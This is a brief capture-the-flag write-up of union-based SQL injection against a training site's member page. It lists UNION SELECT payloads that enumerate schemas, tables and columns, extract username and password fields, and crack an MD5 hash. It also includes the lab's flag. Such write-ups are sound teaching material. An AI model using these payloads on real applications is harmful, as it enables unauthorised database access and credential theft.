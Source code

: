 # UNION BASED SQL INJECTION

## Flag
```
10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5
```

## Discovery
go to ==> http://{IP_ADDRESS}/index.php?page=member


https://www.sqlinjection.net/table-names/

-1 UNION ALL SELECT table_name,concat(column_name) FROM information_schema.COLUMNS 

Get database names:
>Retrieve database names:
>	-1 UNION ALL SELECT NULL,concat(schema_name) FROM information_schema.schemata--
>Retrieve tables names:
>	-1 UNION ALL SELECT NULL,concat(TABLE_NAME) FROM information_schema.TABLES WHERE table_schema='Member_Sql_Injection'--
-1 UNION ALL SELECT table_name,concat(column_name) FROM information_schema.COLUMNS WHERE TABLE_NAME='table1'

-1 UNION SELECT username, password FROM db_default WHERE username=admin
-1 UNION ALL SELECT NULL,concat(column_name) FROM information_schema.COLUMNS WHERE TABLE_NAME='users'
-1 UNION SELECT first_name, countersign FROM users
-1 UNION SELECT username, password FROM db_default WHERE user_id=5


>user_id		first_name 	last_name 	town 	country 	planet 	commentaire 
>5			flag		 GetThe 	42	 	42 			42 		Decrypt this password -> then lower all the char. Sh256 on it and it's good !  

countersign
5ff9d0165b4f92b14994e5c685cdce28 decrypt using md5 ==> FortyTwo 

## Helpers:
- [retrieve data from db](https://www.sqlinjection.net/table-names/)
- [dcode - cipher identifier](https://www.dcode.fr/cipher-identifier)
- [md5decrypt - md5](https://md5decrypt.net/en/)
